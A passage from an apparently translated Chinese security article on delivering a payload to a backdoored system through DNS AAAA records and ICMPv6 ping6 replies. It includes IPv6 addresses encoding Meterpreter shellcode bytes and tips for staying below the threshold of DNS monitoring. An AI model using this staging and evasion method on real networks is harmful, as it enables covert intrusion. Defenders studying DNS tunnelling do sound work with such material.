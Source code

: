 步骤8：（后门系统）循环Ping6 test.domain.com=&gt;{新的IPv6地址fe80:1111:cf89:abff:000e:09b1:33b1:0001}

步骤9：（后门系统）通过IPv6的响应，从新的IPv6地址中转储出注入的Payload，转储这些部分｛cf89:abff:000e:09b1:33b1｝

注1：我们何时能知道IPv6地址改变了？当来自攻击者系统的ping6响应是超时或者不可达。你也可以通过nslookup检查。

注2：也可以使用多个IPv6地址为攻击者的NIC，这种情况下不需要步骤6-1。但是这样你不能使用注1。因此这种情况下你应该使用定时器或者循环通过nslookup或类似的工具得到来自攻击者系统的新的IPv6地址。意思是，从后门系统，你能逐行得到攻击者系统的IPv6地址和DNS Round-robin特征以及分组IPv6 DNS域名。

在这些步骤之后，你能通过DNS和ICMPv6流量得到20字节的Payload：

Payload0=fe80:1111:0034:abcd:ef00:ab11:ccf1:0000==&gt;0034:abcd:ef00:ab11:ccf1

Payload1=fe80:1111:cf89:abff:000e:09b1:33b1:0001==&gt;cf89:abff:000e:09b1:33b1

因此我们在两次Ping6之后得到这个Payload：

Reponse：0034abcdef00ab11ccf1cf89abff000e09b133b1

但是在这个技术中，你只能通过DNS流量做到这个，意味着你能移除所有的Ping6步骤。因此，如果你想不使用Ping6和ICMPv6流量就做到这个，你只需要步骤2和7，通过DNS响应从DNS服务器转储payload。但是我们将在第二部分中讨论讨论这个：（DNS和AAAA记录）

让我们展示一些关于ICMPv6方法的图片，没有代码和工具。

我将来可能会发布C#代码，并且也和这个文章一步一步介绍，但是我想展示关于DNS AAAA + ICMPv6技术的所有图片。                                

[![](./img/85599/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01dc62bda09613aa4a.png)

图A

在图A中，你能看到对于test.domain.com，我们有8个的AAAA记录，你也能看到这个IPv6地址的Ping响应，在这个技术中的DNS和ICMPv6，你能通过1或2下载DNS域名，然后如果你想使用ICMPv6，你能Ping6这些IPv6地址。

图A中，我们有8个AAAA记录，因此我们有8*10字节=80字节

```
Meterpreter payload!
fe80:1111:fc48:83e4:f0e8:cc00:0000:ae0 test.domain.com
fe80:1111:4151:4150:5251:5648:31d2:ae1 test.domain.com
fe80:1111:6548:8b52:6048:8b52:1848:ae2 test.domain.com
fe80:1111:8b52:2048:8b72:5048:0fb7:ae3 test.domain.com
fe80:1111:4a4a:4d31:c948:31c0:ac3c:ae4 test.domain.com
fe80:1111:617c:022c:2041:c1c9:0d41:ae5 test.domain.com
fe80:1111:01c1:e2ed:5241:5148:8b52:ae6 test.domain.com
fe80:1111:208b:423c:4801:d066:8178:ae7 test.domain.com
PAYLOAD0= fc4883e4f0e8cc000000 and Counter = ae0
PAYLOAD1= 415141505251564831d2 and Counter = ae1
```

因此我们得到payload=

fc4883e4f0e8cc000000415141505251564831d2

为什么Ping，我们何时通过DNS请求得到payload？

如果你想使用DNS请求，如DNS循环请求或者通过AAAA记录有大的响应的DNS请求，那么这对于·DNS监控工具检测是一种特征。因此如果在每个DNS响应之后对于AAAA记录你有1或2个ping6，那么我认为它是正常的流量，并且能通过DNS监控设备或者DNS监控工具检测的风险很小。

例如你能通过1或2或3个AAAA记录使用一个响应一个请求。意思是如果响应有4个AAAA记录，或者超过4个AAAA记录，那么可能有网络监控设备或工具将检测你的流量，但是在这些网络限制方面，SOC/NOC的家伙比我更有发言权。
